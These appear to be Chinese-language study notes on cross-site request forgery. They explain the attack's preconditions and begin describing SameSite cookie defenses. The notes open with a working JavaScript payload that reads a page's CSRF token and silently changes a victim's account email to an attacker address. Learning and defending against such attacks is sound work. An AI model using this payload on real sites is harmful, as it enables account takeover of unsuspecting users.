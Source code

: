 ![](https://pic.imgdb.cn/item/6718e2bcd29ded1a8ce0d1de.png)

```js
<script>
    window.addEventListener('DOMContentLoaded',function(){
    var token = document.getElementsByName('csrf')[0].value;
    
    var data = new FormData();
    data.append('csrf',token);
    data.append('email','evil@hacker.net');
    
    fetch('/my-account/change-email',{
        method:'POST',
        mode:'no-cors',
        body:data
    });
}); 
</script>
```

## 跨站请求伪造（CSRF）

这是一种网络安全漏洞，攻击者通过利用这种漏洞诱导用户执行他们不想执行的操作，允许攻击者规避部分同源策略

与XSS的区别，XSS是利用应用内的信任用户，而CSRF是通过伪造成受信任用户请求网站

可能可以按请求方式分为GET和POST两种

CSRF还有个令牌，是由服务器端应用生成并与客户端共享的唯一、秘密且不可预测的值，在发出敏感信息的时候要包含正确的CSRF令牌
与客户端共享的方法是作为隐藏参数包含在HTML中
但是一般是POST请求时，会验证令牌，使用GET会跳过验证

### 攻击方式

要发起CSRF攻击，需要满足三个条件

* 相关操作：应用中存在攻击者有理由诱发的操作，可能是特权操作（例如修改其他用户信息）或针对用户特定
* 基于cookie的会话处理：执行操作涉及发出一个或多个HTTP请求，应用**仅依靠会话的cookie参数**来识别发出请求的用户。没有其他机制来跟踪会话或验证用户请求或者验证的参数都可以被攻击者猜测到）
* 没有不可预测的请求参数：执行操作的请求不包含任何攻击者无法确定或猜测其值的参数（例如，当导致用户更改密码时，如果要攻击者知道现有密码的值，则无法利用CSRF）

要被CSRF攻击，要有两个条件

* 登录受信任的网站A，在本地产生Cookie
* 不登出A的情况下，访问危险网站B

### 解决方案

#### SameSite coolie限制

这是一种浏览器机制，用于告诉浏览器一个网站的cookie在访问哪些网站的请求时要带上

##### SameSite属性

Cookie的SameSite属性可以设置三个值 `Strict`、`Lax`、`None`
